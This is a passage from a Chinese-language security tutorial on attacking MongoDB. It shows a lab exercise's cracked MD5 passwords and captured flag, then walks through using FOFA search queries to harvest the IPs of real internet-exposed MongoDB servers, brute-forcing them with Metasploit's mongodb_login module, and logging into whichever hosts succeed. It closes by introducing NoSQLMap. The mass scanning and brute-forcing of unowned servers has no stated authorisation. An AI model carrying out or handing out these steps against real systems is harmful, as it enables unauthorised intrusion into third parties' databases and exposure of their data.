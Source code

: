 ![截屏2021-11-08 上午2.10.37](https://image.3001.net/images/20220414/1649880214_62572c96165efc52b28f7.png!small)  
![截屏2021-11-08 上午2.10.48](https://image.3001.net/images/20220414/1649880215_62572c97264ef4b8787c2.png!small)

成功拿到用户名为`mozhe`，两个密码经过md5解密后如下：

```
0eae21a0d4eb17267a0981af5f8f0397: 179303
a83cd5ad5ed3e1c5597441aaab289f5c: dsansda
```

使用`mozhe/dsansda`可登录应用  
![截屏2021-11-08 上午2.28.59](https://image.3001.net/images/20220414/1649880216_62572c987fb540c211425.png!small)

成功拿到flag：mozhe0500ad3c303c29201bbe1dbef89  
![截屏2021-11-08 上午2.29.36](https://image.3001.net/images/20220414/1649880225_62572ca19965fddc0b172.png!small)

### 未授权登录

通过 fofa 可导出 mongodb 数据库的IP地址，搜索语句如下：

```
"mongodb" && protocol="mongodb"
```

![截屏2021-11-08 上午2.33.56](https://image.3001.net/images/20220415/1649963398_625871864e183d096d83a.png!small)

使用 fofaAPI 可导出 MongoDB 数据库的IP地址，配置如下

```
{'rule':'"mongodb" && protocol="mongodb"','page':'','size':'100','fields':'host','is_full':''}
```

![截屏2021-11-08 上午2.37.13](https://image.3001.net/images/20220415/1649963400_625871888f52da126a8a0.png!small)  
使用 MSF 对拿到的 MongDB 数据库进行爆破

```
msfconsole
msf > use auxiliary/scanner/mongodb/mongodb_login
msf > set rhosts 'file:/root/Desktop/ouput.txt'
msf > run
```

![截屏2021-11-08 上午2.45.07](https://image.3001.net/images/20220414/1649880230_62572ca65865c67e134e4.png!small)

随意选择爆破成功的IP，登录数据库课成功查看目标数据库信息  
![截屏2021-11-08 上午2.51.13](https://image.3001.net/images/20220414/1649880231_62572ca7e332ebf01869e.png!small)

### 自动化评估

可以通过自动化方法来查找之前所提到的所有漏洞，存在一个工具NoSQLMap  
**工具地址：https://github.com/codingo/NoSQLMap**

#### NoSQLMap介绍
